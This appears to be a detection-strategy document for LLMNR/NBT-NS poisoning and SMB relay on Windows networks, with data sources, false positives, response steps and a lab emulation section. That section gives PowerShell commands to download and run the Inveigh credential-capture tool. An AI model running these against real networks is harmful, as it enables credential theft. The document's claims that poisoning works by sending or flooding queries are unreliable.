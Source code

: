 # Palantir's Alerting & Detection Strategy: LLMNR/NBT-NS Poisoning and SMB Relay Detection

## Goal

The goal of this technique is to detect adversarial attempts to bypass security monitoring by utilizing Local Link Multicast Name Resolution (LLMNR) or NetBIOS Name Service (NBT-NS) poisoning. This method enables adversaries to intercept and relay Server Message Block (SMB) traffic, leading to unauthorized access to sensitive information.

## Categorization

- **MITRE ATT&CK Mapping:** 
  - T1557.001 - LLMNR/NBT-NS Poisoning and SMB Relay
- **Tactic / Kill Chain Phases:**
  - Credential Access
  - Collection
- **Platforms:**
  - Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1557/001)

## Strategy Abstract

This detection strategy leverages network monitoring tools and endpoint detection capabilities to identify anomalous LLMNR/NBT-NS traffic indicative of poisoning attempts. The primary data sources include:

- **Network Traffic Logs:** To capture unusual spikes or patterns in name resolution traffic.
- **Endpoint Activity Monitoring:** Specifically focusing on SMB traffic and suspicious process execution that may suggest relay activities.

The strategy analyzes patterns such as:
- Uncharacteristic volume or type of LLMNR/NBT-NS packets.
- Unexpected SMB session initiations from endpoints associated with abnormal network activity.

## Technical Context

Adversaries execute LLMNR/NBT-NS poisoning by deploying malware like Inveigh that crafts and sends malicious name resolution requests. This allows the adversary to intercept communications between clients on a local network, redirecting or capturing sensitive data transmitted via SMB.

**Real-world Execution:**
1. Deploy a tool such as Inveigh.
2. Execute PowerShell scripts to flood the network with LLMNR/NBT-NS queries.
3. Intercept and relay responses to unauthorized endpoints for credential harvesting.

## Blind Spots and Assumptions

- **Blind Spots:** 
  - Detection may be less effective in networks where high volumes of legitimate LLMNR/NBT-NS traffic occur, potentially masking malicious activity.
  
- **Assumptions:**
  - Baseline network behavior is well-understood to differentiate between normal and abnormal traffic patterns.

## False Positives

Potential benign activities that might trigger false alerts include:
- Legitimate spikes in LLMNR/NBT-NS traffic during periods of high network activity.
- Network reconfigurations or legitimate use cases of Inveigh for testing purposes within controlled environments.

## Priority

**Severity:** High  
**Justification:** The technique allows adversaries to capture sensitive credentials and data, potentially leading to significant security breaches. The ability to bypass traditional detection mechanisms makes it a critical threat vector requiring immediate attention.

## Validation (Adversary Emulation)

To validate the detection strategy in a controlled test environment:

### LLMNR Poisoning with Inveigh (PowerShell)

1. **Setup Environment:**
   - Ensure a Windows-based test network is isolated from production environments.
   
2. **Deploy Inveigh:**
   - Download and execute Inveigh on a test machine:
     ```powershell
     Invoke-WebRequest -Uri "https://github.com/Kevin-Robertson/Inveigh/releases/download/v3.0/inveigh.exe" -OutFile "inveigh.exe"
     .\inveigh.exe
     ```

3. **Execute LLMNR Poisoning:**
   - Use PowerShell to start the Inveigh process:
     ```powershell
     Start-Process -FilePath "inveigh.exe" -ArgumentList "-i", "your-interface"
     ```

4. **Monitor Network Traffic:**
   - Observe network traffic logs for spikes in LLMNR/NBT-NS packets.
   - Check endpoint monitoring tools for unusual SMB activity.

5. **Analyze Results:**
   - Confirm detection by identifying increased or unexpected LLMNR/NBT-NS traffic correlated with unauthorized SMB sessions.

## Response

When an alert is triggered, analysts should:

1. **Isolate Affected Systems:** 
   - Disconnect suspicious endpoints from the network to prevent further data leakage.
   
2. **Investigate Network Traffic:**
   - Analyze captured packets for signs of LLMNR/NBT-NS poisoning and SMB relay activity.

3. **Review Endpoint Logs:**
   - Examine logs for any executed scripts or processes indicative of malicious activity.

4. **Update Security Posture:**
   - Implement network segmentation to limit the spread of poisoned queries.
   - Enhance endpoint security configurations to mitigate against similar attacks.

## Additional Resources

- No additional resources available at this time. Further investigation and collaboration with threat intelligence communities may provide more insights or tools for improving detection capabilities.